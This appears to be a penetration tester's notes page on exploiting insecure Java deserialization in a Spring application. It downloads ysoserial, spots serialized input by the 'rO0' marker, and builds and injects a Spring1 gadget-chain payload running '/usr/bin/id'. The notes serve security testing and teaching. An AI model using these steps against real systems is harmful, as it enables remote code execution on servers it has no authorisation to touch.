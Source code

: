 # ObjectInputStream - ysoserial

## ObjectInputStream - ysoserial

### Context

A Spring application that uses serialized Java objects.

The application is using the method readObject\(\) \(exposed to user input\).

To be able to exploit this vulnerability, a chain of gadgets must be found \(using ysoserial\).

### Exploitation

* download ysoserial

```csharp
wget  https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar -O ysoserial-master-6eca5bc740-1.jar
java -jar ysoserial-master-6eca5bc740-1.jar
```

![](../../../../.gitbook/assets/image%20%2894%29.png)

* try to find the right payload \(try them all if enumeration fails ....\)

### Vulnerable endpoint

Find where the serialized object is used. A good indicator is the string rO0, which is the base64 encoded version of \xac\xed\x00.

![](../../../../.gitbook/assets/image%20%28168%29.png)

#### Payload creation

* Application is using Spring1

```csharp
java -jar ysoserial-master-6eca5bc740-1.jar  Spring1  "/usr/bin/id" | base64 -w 0
```

![](../../../../.gitbook/assets/image%20%2815%29.png)

* Inject the payload

![](../../../../.gitbook/assets/image%20%28137%29.png)



### Resources

{% embed url="https://github.com/frohoff/ysoserial" %}





